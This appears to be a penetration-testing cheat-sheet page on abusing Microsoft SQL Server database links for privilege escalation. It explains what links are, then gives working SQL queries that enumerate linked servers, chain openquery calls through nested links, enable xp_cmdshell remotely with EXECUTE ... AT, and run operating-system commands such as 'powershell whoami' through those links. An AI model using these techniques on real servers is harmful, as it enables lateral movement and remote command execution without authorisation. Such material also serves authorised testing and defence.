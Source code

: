 ### SQL Server Links

**What’s a SQL Server Link?**

- Database links are basically persistent database connections for SQL Servers.
- A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources (Access, Excel, Oracle etc.). 
- In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures. 
- Database links work across SQL server versions and even across forest trusts.

**Why should I care about SQL Server Links?**

- Short answer = privilege escalation 
- Links can be accessed by the public role via openquery 
- Links are often configured with excessive privileges so they can allow you to impersonate logins on remote servers. 
 - xp_cmdshell and other command can be ran through 
 - Links can be crawled.

SQL Server links can be exploited by:

- `HeidiSQL`:

	```sql
	-- HeidiSQL
	-- Look for links to remote servers (public privs are enough)
	select * from master..sysservers

	-- Run the same query on linked databases.Openquery() function can be used to run queries on a linked database 
	select * from openquery("SQLServer2",'select * from master..sysservers')

	-- Openquery queries can be chained to access links within links (nested links) 
	select * from openquery("SQLServer2",'select * from openquery("SQLServer3",''select * from master..sysservers'')')

	-- Hereafter, a long example of openquery
	select * from openquery("ops-mssql",'select * from openquery("opsfile",''select * from openquery("ops-sqlsrvprod",''''select * from openquery("dps-sqlreport", ''''''''select * from openquery("dps-mssql",''''''''''''''''select @@version as version;exec master..xp_cmdshell "powershell whoami"'''''''''''''''')'''''''')'''')'')')
	```

	`xp_cmdshell` cannot be enabled on linked databases unless rpcout is enabled for all links (disabled by default), `xp_cmdshell` can be enabled using:

	```sql
	-- HeidiSQL
	-- The query travels through the links and executes at the instance specified by AT
	EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "SQLServer2"
	```
	From the initial SQL server, OS commands can be executed using nested link queries (**remember to double nested single quotes for escaping**): 
	```sql
	-- HeidiSQL
	select * from openquery("SQLServer2",'select * from openquery("SQLServer3",''select * from openquery("SQLServer4",''''select @@version as version;exec master..xp_cmdshell "cmd /c calc.exe"'''')'')')
	```
